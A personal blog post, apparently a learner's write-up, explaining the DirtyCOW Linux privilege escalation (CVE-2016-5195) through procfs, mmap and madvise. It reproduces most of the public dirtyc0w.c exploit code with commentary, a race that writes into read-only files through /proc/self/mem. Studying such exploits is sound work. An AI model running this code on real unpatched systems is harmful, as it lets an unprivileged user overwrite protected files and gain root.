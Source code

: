 ```yaml
---
layout: post
title:  "DirtyCOW privilege escalation"
date: 2020-12-27 19:01:52 -0500
tags: security
---
```

## Why this?
Having no security experience (and this blog should not be interpreted in any way to be that I know what I'm talking about), I decided this year to participate in TryHackMe's [Advent of Cyber 2](https://tryhackme.com/room/adventofcyber2). One of the challenges referenced the DirtyCOW privilege escalation (CVE-2016-5195), something I had only heard in passing without having any in-depth knowledge. I figured I should broaden my horizons a bit to do some research, understand why proof of concepts work, be able to explain it and demo it and write something up about it.. even if it is from 2016

## Background
CVE-2016-5195 is a privilege escalation vulnerability in the Linux Kernel, which takes advantage of a race condition found where the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings

This effectively can allow an unprivileged user to increase their privileges on the system

### Race condition
A race condition is when a system that handles tasks in a specific sequence is forced to perform two or more operations simultaneously

### proc filesystem (procfs)
procfs presents information about processes and other system information in a hierarchical file-like structure. This makes it more convenient to access process data in the kernel rather than having to use tracing methods. This kind of acts as a communication between kernel and user space in memory

Linux separates its directories as `/proc/PID` (`PID` is the process number). One of the directories of interest is `/proc/self`, which is a symbolic link to the `PID` of the current process. For example, if you were to run `ls -la /proc/self` multiple times, the symbolic link changes to another `PID`

```
stephen@ubuntu:/home/stephen$ ls -la /proc/self
lrwxrwxrwx 1 root root 0 Dec 27 12:04 /proc/self -> 84
stephen@ubuntu:/home/stephen$ ls -la /proc/self
lrwxrwxrwx 1 root root 0 Dec 27 12:04 /proc/self -> 85
stephen@ubuntu:/home/stephen$ ls -la /proc/self
lrwxrwxrwx 1 root root 0 Dec 27 12:04 /proc/self -> 86
stephen@ubuntu:/home/stephen$ ls -la /proc/self
lrwxrwxrwx 1 root root 0 Dec 27 12:04 /proc/self -> 87
stephen@ubuntu:/home/stephen$
```

## Important Linux system calls
These calls are used in the proof of concepts

### mmap
```c
#include <sys/mman.h>
void *mmap(void *addr, size_t length, int prot, int flags,
           int fd, off_t offset);
int munmap(void *addr, size_t length);
```
`mmap()` creates a new mapping in the virtual address space of the calling process

### madvise
```c
#include <sys/mman.h>
int madvise(void *addr, size_t length, int advice);
```
`madvise()` gives advice or directions to the kernal about the address range. This begins at the address `addr` and ends with the `length` offset. This is generally to improve system or application performance

The `advice` value that used in the proof of concept is `MADV_DONTNEED`. This means "Do not expect access in the near future"

This is used because we have two steps in the proof of concept, given a root_file

1. Locate the physical address of the root_file
2. Write to that address

`madvise()` is inserted between those two steps with the `MADV_DONTNEED` advice value, which says we don't need the private mapping anymore

## dirtyc0w proof of concept
This section reviews the proof of concept at https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c. Understanding this proof of concept helps to further explain the other proofs on concept at https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs, or at least I hope so. This should also be pretty fun as I have little to no c experience

### High-level
When compiled, dirtyc0w.c takes two arguments:
1. protected file
2. contents to write to the protected file

The program opens the file in read only mode. It then creates a new, private copy-on-write mapping in the virtual address space, that has the same size as our protected file

Two threads are then created:
1. `madvise()` will set the mapping that we created earlier to tell the system that the private mapping isn't needed anymore
2. `procselfmem` opens the `/proc/self/mem` file in read/write mode, resets the file pointer back to the start of the file and starts writing contents to the protected file at the beginning of the file

### c code
I won't bother copying/pasting the entire thing here, but just talk about the different sections
```c
void *madviseThread(void *arg)
{
  char *str;                            
  str=(char*)arg;                       
  int i,c=0;                            // Initialize for-loop variables
  for(i=0;i<100000000;i++)              // 
  {                                     // For-loop over 100000000 bytes
    c+=madvise(map,100,MADV_DONTNEED);  // in 100 byte increments
  }                                     // in the new mapping to set
  printf("madvise %d\n\n",c);           // madvise that the private
}                                       // mapping isn't needed
```

```c
void *procselfmemThread(void *arg)
{
  char *str;
  str=(char*)arg;

  int f=open("/proc/self/mem",O_RDWR);  // Open /prov/self/mem/
  int i,c=0;                            // in read/write
  for(i=0;i<100000000;i++) {            // For-loop over 100000000 bytes
    
    lseek(f,(uintptr_t) map,SEEK_SET);  // Reset the file pointer to the
                                        // file start position in memory
    c+=write(f,str,strlen(str));        // Write arg to the file
  }
  printf("procselfmem %d\n\n", c);
}
```

```c
int main(int argc,char *argv[])
{
  // Checking for arguments
  if (argc<3) {
  (void)fprintf(stderr, "%s\n",
      "usage: dirtyc0w target_file new_content");
  return 1; }
  pthread_t pth1,pth2;

  // Open the protected file in read-only mode
  f=open(argv[1],O_RDONLY);
  // Populate the st struct (of type stat) with the file information
  fstat(f,&st);
  name=argv[1];

  // Creates a private mapping, which causes the copy-on-write mapping
  map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
  printf("mmap %zx\n\n",(uintptr_t) map);

  // Sets up the first thread madvise()
  pthread_create(&pth1,NULL,madviseThread,argv[1]);
  // Sets up the second thread to write to /proc/self/mem
  pthread_create(&pth2,NULL,procselfmemThread,argv[2]);

  // Wait for the threads to finish
  pthread_join(pth1,NULL);
  pthread_join(pth2,NULL);
  return 0;
}
```

## See also
* https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
* https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/index.html
* https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/demo.html
* https://www.secpod.com/blog/dirty-cow-vulnerability/
* https://www.veracode.com/security/race-condition
* https://en.wikipedia.org/wiki/Procfs
* https://www.man7.org/linux/man-pages/man2/mmap.2.html
* https://man7.org/linux/man-pages/man2/madvise.2.html
